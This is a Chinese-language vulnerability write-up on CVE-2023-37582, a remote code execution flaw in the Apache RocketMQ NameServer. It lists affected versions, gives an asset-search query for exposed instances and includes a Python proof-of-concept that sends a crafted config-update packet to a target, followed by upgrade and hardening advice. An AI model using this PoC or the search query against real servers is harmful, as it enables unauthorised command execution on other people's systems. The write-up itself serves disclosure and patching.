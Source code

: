 # 

# Apache RocketMQ 远程代码执行漏洞 CVE-2023-37582

## 漏洞描述

此漏洞是由于 CVE-2023-33246 补丁未修复完全，当 RocketMQ 的NameServer 组件暴露在外网，且缺乏有效的身份认证时，攻击者可以利用更新配置功能，以 RocketMQ 运行的系统用户身份执行任意命令。

## 漏洞影响

```
RocketMQ < 4.9.7
RocketMQ < 5.1.2
```

## 网络测绘

```
title="RocketMQ"
```

## 漏洞复现

poc：

```
import socket
import binascii
 
client = socket.socket()
client.settimeout(5)
 
client.connect((target_ip,target_port))
## make payload
json = '{"code":318,"extFields":{"test":"RockedtMQ"},"flag":0,"language":"JAVA","opaque":266,"serializeTypeCurrentRPC":"JSON","version":433}'.encode('utf-8')
 
body=('Thanks DawnT0wn').encode('utf-8')
json_lens = int(len(binascii.hexlify(json).decode('utf-8'))/2)
head1 = '00000000'+str(hex(json_lens))[2:]
all_lens = int(4+len(binascii.hexlify(body).decode('utf-8'))/2+json_lens)
head2 = '00000000'+str(hex(all_lens))[2:]
data = head2[-8:]+head1[-8:]+binascii.hexlify(json).decode('utf-8')+binascii.hexlify(body).decode('utf-8')
## send
client.send(bytes.fromhex(data))
data_recv = client.recv(1024)
```

## 漏洞修复

目前官方已发布安全版本，建议受影响用户升级至：

- RocketMQ 5.x >= 5.1.2
- RocketMQ 4.x >= 4.9.7

官方补丁下载地址：https://rocketmq.apache.org/download/，同时建议将 NameServer、Broker 等组件部署在内网，并增加权限认证。
